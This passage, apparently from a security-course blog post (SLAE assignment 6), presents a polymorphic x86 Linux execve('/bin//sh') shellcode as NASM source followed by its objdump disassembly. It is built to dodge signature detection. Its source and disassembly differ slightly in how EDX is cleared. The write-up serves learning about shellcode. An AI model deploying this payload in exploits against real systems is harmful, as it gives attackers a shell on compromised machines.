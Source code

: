 ![The encoded payload]({{site.url}}/assets/images/exec_encoded_variant.png)

The execve() shellcode variant is 25 byte long, instead of 30 bytes of the
original shellcode taken from the website.

{%highlight asm%}
; Filename:
; Author:	Paolo Perego <paolo@codiceinsicuro.it>
; Website:  	https://codiceinsicuro.it
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	Polymorphic variation for an obfuscated shellcode

global _start

section .text

_start:
	; INIT Registers
	push byte 0xb
	pop eax
	xor ecx, ecx
	push ecx
	pop edx

	jmp short shell

flow:
	pop ebx
	int 0x80

shell:
	call dword flow
	das
	bound ebp,[ecx+0x6e]
	das
	das
	jae $+0x6a

{%endhighlight%}

The disassembled executable is:

{%highlight asm%}
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/exec
 %      objdump -d exec_variant

exec_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	6a 0b                	push   $0xb
 8048082:	58                   	pop    %eax
 8048083:	31 c9                	xor    %ecx,%ecx
 8048085:	31 d2                	xor    %edx,%edx
 8048087:	eb 03                	jmp    804808c <shell>

08048089 <flow>:
 8048089:	5b                   	pop    %ebx
 804808a:	cd 80                	int    $0x80

0804808c <shell>:
 804808c:	e8 f8 ff ff ff       	call   8048089 <flow>
 8048091:	2f                   	das
 8048092:	62 69 6e             	bound  %ebp,0x6e(%ecx)
 8048095:	2f                   	das
 8048096:	2f                   	das
 8048097:	73 68                	jae    8048101 <_end+0x65>

